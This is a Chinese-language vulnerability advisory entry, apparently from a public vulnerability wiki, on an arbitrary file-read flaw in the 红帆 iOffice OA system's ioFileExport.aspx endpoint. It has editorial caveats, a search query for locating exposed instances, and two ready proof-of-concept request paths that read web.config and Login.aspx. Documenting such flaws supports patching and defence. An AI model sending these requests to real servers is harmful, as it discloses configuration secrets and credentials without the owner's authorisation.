


# 红帆iOffice ioFileExport.aspx应用文件读取

## 条目说明

- 对象与具体问题：红帆iOffice；ioFileExport.aspx应用文件读取
- 版本、配置及部署条件：无版本；web.config/Login.aspx示例仅应用目录
- 认证与权限前提：未知，无明确认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 提供两条url参数读取请求，但无HTTP响应文本和源码解释
- 任意文件全系统范围尚无文本证据，应限制为已示应用目录配置/源码
- 缺补丁/版本/权限，图片未查看

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

### 漏洞影响

```
红帆OA
```

### 网络测绘

```
app="红帆-ioffice"
```

### 漏洞复现

登录页面


验证POC, 读取web.config文件

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```



```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
